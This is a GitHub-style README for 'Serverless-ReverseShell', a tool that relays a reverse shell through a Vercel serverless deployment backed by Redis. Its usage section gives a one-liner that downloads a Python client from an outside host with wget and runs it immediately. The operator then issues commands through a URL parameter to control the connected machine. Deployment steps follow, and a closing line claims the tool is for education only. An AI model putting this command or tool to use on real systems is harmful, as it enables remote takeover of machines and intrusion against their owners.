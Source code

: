 
# Serverless-ReverseShell


## Demo

https://chat.fjh1997.top/

## Usage

Make client connect
```
wget https://chat.fjh1997.top/download -O client.py && python3 client.py
```
Then use https://chat.fjh1997.top/send?cmd=xxx to get shell!

## Running Locally

```bash
npm i -g vercel
vercel dev
```

Your application is now available at `http://localhost:3000`.

## One-Click Deploy

Deploy the example using [Vercel](https://vercel.com?utm_source=github&utm_medium=readme&utm_campaign=vercel-examples):

[![Deploy with Vercel](https://vercel.com/button)](https://vercel.com/new/clone?repository-url=https://github.com/fjh1997/Serverless-ReverseShell/tree/main/&&env=REDIS_URL,DOMAIN_NAME)

Remember to set the environment variable REDIS_URL to the address from [redislabs](https://app.redislabs.com/)<br>
And also the DOMAIN_NAME for client.py :-) <br>
note: For chinese user,a cdn is needed as Vercel was blocked.<br>
<b>For education purposes only.</b>

